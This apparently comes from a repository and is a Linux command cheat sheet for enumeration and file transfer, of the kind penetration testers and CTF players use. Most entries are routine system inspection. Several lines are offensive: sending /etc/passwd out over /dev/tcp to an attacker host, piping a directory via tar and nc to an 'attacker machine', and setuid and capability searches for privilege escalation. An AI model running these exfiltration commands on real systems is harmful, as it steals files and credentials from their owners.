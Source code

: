 # enumeration quick commands

## list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

## process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

## find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

## find files belonging to user
```bash
find / -user username 2>/dev/null
```

## find files belonging to group
```bash
find / -group adm 2>/dev/null
```

## find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

## find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

## get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

## get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

## find all git repositories
```bash
find / -name .git 2>/dev/null
```

## get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

## transfer / download files with just bash
### receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
### send
```bash
LPORT=443
nc -lvnp $LPORT < filename
```

## exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

## find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

## copy entire directory to attacker machine quickly by piping tar
attacker
```bash
# attacker
nc -lvnp 1337 | tar -xf -
# target
tar -cf - . | nc $LHOST 1337
```

## get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

## list systemd timers
```bash
systemctl list-timers
```

## check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```

## file transfer with cat herefiles
```bash
cat << EOF >> filename.sh
# paste file contents here
EOF
```

# get facl recursively centos / redhat
```bash
getfacl -R -s .
getfacl -R -s /
```
